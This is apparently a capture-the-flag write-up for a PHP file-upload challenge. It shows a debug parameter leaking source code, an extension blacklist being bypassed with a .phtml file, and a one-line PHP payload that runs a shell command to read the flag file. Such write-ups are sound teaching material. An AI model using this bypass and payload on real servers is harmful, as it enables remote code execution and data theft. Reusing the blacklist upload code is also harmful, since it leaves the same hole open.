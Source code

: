 Observe that an HTML comment leaks the parameter `?debug=1`

Visiting `http://<domain>:<port>/?debug=1` leaks the PHP code running on the website.
```rb
<?php

if (isset($_GET['debug']) && $_GET['debug'] == 1) {
    header('Content-Type: text/plain');
    readfile(__FILE__);
    exit;
}

if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["uploadedFile"])) {
    $targetDir = "uploads/";
    $targetFile = $targetDir . basename($_FILES["uploadedFile"]["name"]);
    $uploadOk = 1;
    $fileType = strtolower(pathinfo($targetFile, PATHINFO_EXTENSION));

    if ($_FILES["uploadedFile"]["size"] > 5000) {
        $uploadStatus = ["success" => false, "message" => "Sorry, your file is too large."];
        $uploadOk = 0;
    }

    $blacklist = array("php", "php2", "php3", "php4", "php5", "php6", "php7", "phps", "phps", "pht", "phtm", "pgif", "shtml", "htaccess", "phar", "inc", "hphp", "ctp", "module");
    if (in_array($fileType, $blacklist)) {
        $uploadStatus = ["success" => false, "message" => "Sorry, this file extension is not allowed."];
        $uploadOk = 0;
    }

    if ($uploadOk != 0) {
        if (move_uploaded_file($_FILES["uploadedFile"]["tmp_name"], $targetFile)) {
            $uploadStatus = ["success" => true, "message" => "The file <b>" . $targetFile . "</b> has been uploaded."];
        } else {
            $uploadStatus = ["success" => false, "message" => "Sorry, there was an error uploading your file."];
        }
    }
}
```

From this PHP code, we see that a blacklist is applied to the file extensions:
```rb
$blacklist = array("php", "php2", "php3", "php4", "php5", "php6", "php7", "phps", "phps", "pht", "phtm", "pgif", "shtml", "htaccess", "phar", "inc", "hphp", "ctp", "module");
```

Using the resource below, we find that the extension `.phtml` can also be used for PHP code execution, and it not on the blacklist.
https://book.hacktricks.xyz/pentesting-web/file-upload

Prepare a file called `exploit.phtml` with the contents:
```php
<?php system("cat /flag/flag.txt")?>
```

Upload `exploit.phtml`, and visit `/uploads/exploit.phtml`

Flag: `SUCTF{d0nt_us3_bl4ckl1sts}`